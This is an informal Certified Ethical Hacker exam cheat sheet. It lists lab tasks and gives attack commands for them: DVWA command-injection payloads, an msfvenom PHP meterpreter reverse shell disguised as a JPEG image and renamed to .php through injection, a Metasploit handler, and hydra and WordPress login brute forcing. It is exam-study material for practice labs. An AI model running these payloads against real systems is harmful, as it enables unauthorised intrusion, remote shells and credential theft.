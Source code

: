 # CEH CHEAT SHEET

Sql injection using sqlmap: u need to perform sql injection attack using sqlmap and need to extract password of specific user.

You need to check which hosts have rdp enabled. For this u need to perform the port scan on 3389 and then os discovery on open port host and u need to get os of that rdp enabled host.

U need to check the mysql service running on which host. Same question 2 technique you need to perform.

U need to extract username and password of ftp ( hydra tool u need to use and need to use wordlist placed in desktop wordlist folder)

U need to get the password.txt file using veracrypt (disk encryption)

U need to get the username and password using wireshark.

U need to check bit 3 is true or not using wireshark

U need to check the traffic from which port to which port is moving using wireshark

U need to decrypt the 3des encryption using cryptool.

U need to extract the pin using openstego

U need to perform steganalysis on the txt file using snow tool

U need to perform brute force on the website using burpsuite ( using intruder)

U need to crack hash file using john ( the hash file is located in the responder tool logs file)

13.u need to find the flag file from the ftp. ( for this task bro please use the credentials u cracked in previous challenge)

Perform remote os command injection (dvwa web) and need to get the content from pin file

Perform file upload (dvwa web)

U need to compare the hashes using md5 and provide results which file is tampered.

Need to crack hash file ( john the ripper)

U need to find trojan and need to provide the port of the trojan

U need to perform the parameter tamperingo

U need to perform the cryptanalysis and u have to use the cryptool. Open the cryptool on top, click on encryption / decryption and then click on asymmetric and select tripe des ecb and set 11 11 11 in all. But first please open that file in the tool they ask us to perform the decryption decryption

For this remote command injection attack u need to perform the things a

Snow.exe -C -p “given_password” file_name

| dir c:\ with this command u can see the pin.txt file. But to read the content from this try this command | dir c:\ "pin.txt" or this command ! Take pin.txt

### DVWA

WINDOWS - COMMAND INJECTION
Easy - Command Injection

Execute 127.0.0.1 & & net user Execute 127.0.0.1 & & net user & & ver command Execute 127.0.0.1 & & net user & & getmac

Medium - Command Injection

127.0.0.1&net user 127.0.0.1&net user&sc query&systeminfo 127.0.0.1&;&ipconfig

High - Command Injection

127.0.0.1|net user

FILE UPLOAD - WINDOWS
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw

type GIF98 before PHP code and save as shell.jpeg.

Copy the uploaded path

Click on command injectio and type below command |copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg C:\xampp\htdocs\DVWA\hackable\uploads\aa.php

Msfconsole Use multi/handler Set payload php/meterpreter/reverse_tcp Set lhost Set lport Run

### 

## Commands:

Net  user
Snow.exe -C -p “given_password” file_name
—---------------------

wpscan --url [http://10.10.10.12:8080/CEG](http://10.10.10.12:8080/CEG) --enumerate u
msfconsole
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Passwords.txt
set RHOSTs 10.10.10.12
set RPORT 8080
set TARGETURI [http://10.10.10.12:8080/CEH/](http://10.10.10.12:8080/CEH/)
set USERNAME admin
run

—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

Hydra -l james -P given_wordlist [ftp://target](ftp://target/)